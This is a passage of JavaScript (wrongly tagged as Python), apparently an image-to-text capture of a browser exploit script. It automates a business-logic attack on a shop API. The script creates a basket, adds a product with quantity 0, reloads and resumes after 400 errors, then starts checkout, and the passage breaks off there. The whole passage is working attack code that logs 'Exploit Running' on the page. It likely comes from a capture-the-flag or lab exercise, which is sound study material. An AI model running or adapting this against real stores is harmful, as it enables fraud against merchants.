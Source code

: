 ```py
                  
                  try {
                    const progress = getProgress();
                    let currentStep = progress ? progress.step : 'createBasket';
                    session_id = progress ? progress.sessionId : null;
                    
                    document.querySelector('h1').textContent = `Exploit Running... (State: ${currentStep})`;
                    if (progress) {
                        logToPage(`[!] Resuming from saved progress at step: ${currentStep}`);
                    }

                    // STEP 1: Create Basket
                    if (currentStep === 'createBasket') {
                        logToPage("[*] Step 1: Creating basket...");
                        const response = await fetch(`${BASE}/api/basket`, { method: "POST" });
                        if (!response.ok) throw new Error(`Failed to create basket: ${response.status}`);
                        
                        // ===== THE CRITICAL FIX IS HERE =====
                        session_id = await response.json(); // Use .json() to correctly parse the quoted string
                        // ===================================
                        
                        logToPage(`[*] New Session ID: ${session_id}`);
                        currentStep = 'addProduct';
                    }

                    // STEP 2: Add Product
                    if (currentStep === 'addProduct') {
                        logToPage(`[*] Step 2: Adding product with quantity 0...`);
                        const response = await fetch(`${BASE}/api/basket/add`, {
                          method: "POST",
                          headers: { "X-Session-ID": session_id, "Content-Type": "application/json" },
                          body: JSON.stringify({ product_id: 1, quantity: 0 })
                        });

                        if (response.status === 400) {
                            logToPage('[!] Received status 400. Saving progress and reloading page...');
                            setProgress('addProduct', session_id);
                            location.reload();
                            return;
                        }
                        if (!response.ok) throw new Error(`Failed to add product: ${response.status}`);
                        
                        const basket = await response.json();
                        logToPage("[+] Product added successfully. Basket state:");
                        logToPage(basket);
                        currentStep = 'checkout';
                    }

                    // STEP 3: Checkout
                    if (currentStep === 'checkout') {
                        logToPage(`[*] Step 3: Checking out...`);
                        const response = await fetch(`${BASE}/api/checkout`, {
                          method: "POST",
                          headers: { "X-Session-ID": session_id, "Content-Type": "application/json" },
                          body: JSON.stringify({})
                        });
```